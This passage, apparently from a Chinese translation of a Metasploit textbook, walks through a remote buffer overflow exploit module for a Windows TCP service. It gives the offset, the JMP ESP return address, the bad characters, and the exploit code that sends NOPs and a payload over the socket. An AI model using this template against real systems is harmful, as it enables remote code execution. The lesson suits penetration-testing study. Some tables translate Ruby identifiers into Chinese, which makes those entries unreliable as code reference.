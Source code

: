 ```
   [ 
         Opt::RPORT(200) 
   ]) 
  end 
```

在编写代码之前，让我们看一下我们在这个模块中使用的库：

| **包含语句** | **路径** | **用途** |
| --- | --- | --- |
| `Msf::Exploit::Remote::Tcp` | `/lib/msf/core/exploit/tcp.rb` | TCP 库文件提供基本的 TCP 功能，如连接、断开连接、写入数据等 |

与我们在第十二章中构建模块的方式相同，*重新发明 Metasploit*，利用模块首先包括必要的库路径，然后包括来自这些路径的所需文件。我们将模块类型定义为`Msf::Exploit::Remote`，表示远程利用。接下来，我们有`initialize`构造方法，在其中定义了名称、描述、作者信息等。然而，我们可以看到`initialize`方法中有大量新的声明。让我们看看它们是什么：

| **声明** | **值** | **用法** |
| --- | --- | --- |
| `平台` | `win` | 定义了利用将要针对的平台类型。win 表示利用将可用于基于 Windows 的操作系统。 |
| `披露日期` | `2018 年 3 月 4 日` | 漏洞披露的日期。 |
| `目标` | `Ret` | 特定操作系统的`Ret`字段定义了我们在前一节中找到的 JMP ESP 地址。 |
| `0x71AB9372` |
| `目标` | `Offset` | 特定操作系统的`Offset`字段定义了在覆盖 EIP 之前填充缓冲区所需的字节数。我们在前一节中找到了这个值。 |
| `520` |
| `有效载荷` | `空间` | 在有效载荷声明中，`空间`变量定义了有效载荷可以使用的最大空间量。这相对重要，因为有时我们的空间不足以加载我们的 shellcode。 |
| `1000` |
| `有效载荷` | `BadChars` | 在有效载荷声明中，`BadChars`变量定义了在有效载荷生成过程中要避免的不良字符。声明不良字符的做法将确保稳定性，并删除可能导致应用程序崩溃或无法执行有效载荷的字节。 |
| `\x00\xff` |

我们还在`register_options`部分将利用模块的默认端口定义为`200`。让我们来看看剩下的代码：

```
def exploit 
    connect 
    buf = make_nops(target['Offset']) 
    buf = buf + [target['Ret']].pack('V') + make_nops(30) + payload.encoded 
    sock.put(buf) 
    handler 
    disconnect 
  end 
end
```

让我们了解一些在前面的代码中使用的重要函数：

| **函数** | **库** | **用法** |
| --- | --- | --- |
| `make_nops` | `/lib/msf/core/exploit.rb` | 此方法用于通过传递`n`作为计数来创建`n`个 NOP |
| `连接` | `/lib/msf/core/exploit/tcp.rb` | 调用此方法来与目标建立连接 |
| `断开连接` | `/lib/msf/core/exploit/tcp.rb` | 调用此方法来断开与目标的现有连接 |
| `处理程序` | `/lib/msf/core/exploit.rb` | 将连接传递给相关的有效载荷处理程序，以检查是否成功利用了漏洞并建立了连接 |
